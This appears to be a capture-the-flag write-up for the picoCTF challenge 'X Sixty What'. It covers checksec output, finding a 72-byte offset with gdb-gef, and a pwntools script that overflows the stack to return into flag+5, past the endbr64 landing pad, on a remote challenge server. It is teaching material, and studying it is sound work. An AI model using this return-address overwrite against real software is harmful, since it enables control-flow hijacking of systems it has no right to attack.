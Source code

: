 ```yaml
---
title: "X Sixty What"
date: 2025-10-22T22:47:14+05:30
draft: False
---
```


Opening the provided `vuln.c` source code for this challenge we see that there is a `vuln` function which gets called by the `main`, we can deduce that all we gotta do is just change the flow of control from `vuln` to flag.
Also as the code in `flag` follows, we create a `flag.txt` as a prereqesite.

Running `checksec` on the given binary we get :

```bash
[*] '.../x-sixty-what/vuln'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    
```

We can see no PIE enable. So we just need to overwrite the return address to flag function on vuln function.
But first we need to find the offset, we can do so by using gdb-gef.

```bash
$rax   : 0x00007fffffffd9c0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$rbx   : 0x00007fffffffdb58  →  0x00007fffffffe038  →  "/home/ankit/writeups/x-sixty-what/vuln"
$rcx   : 0x00007ffff7e038e0  →  0x00000000fbad2288
$rdx   : 0x0
$rsp   : 0x00007fffffffda08  →  "jaaaaaaakaaaaaaalaaaaaaamaaa"
$rbp   : 0x6161616161616169 ("iaaaaaaa"?)
$rsi   : 0x00000000004052a1  →  "aaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaa[...]"
$rdi   : 0x00007ffff7e05720  →  0x0000000000000000
$rip   : 0x00000000004012d1  →  <vuln+001f> ret
$r8    : 0x0000000000405305  →  0x0000000000000000
$r9    : 0x0
$r10   : 0x1
$r11   : 0x246
$r12   : 0x1
$r13   : 0x0
$r14   : 0x0

[+] Searching for '6a61616161616161'/'616161616161616a' with period=8
[+] Found at offset 72 (little-endian search) likely
```

Using this above info and pwntools, we can craft an exploit.
Note that we are passing the address of flag + 5. We do this to bypass the Intel CET (Control-flow Enforcement Technology). So instead of returning to the address of flag (0x401236), you return to flag + 5 (0x40123b), which skips the endbr64 and lands cleanly at the mov rbp, rsp in the function prologue. That way the function runs normally

```python
from pwn import *

f = ELF("./vuln")
flag_pad = p64(f.symbols["flag"])
flag = p64(0x000000000040123b)      # < FLAG + 5 >


payload = b"A"*72 + flag


def main():
    p = remote("saturn.picoctf.net", 63945) 
    p.sendline(payload)                     
    p.interactive()

if __name__ == "__main__":
    main()
```

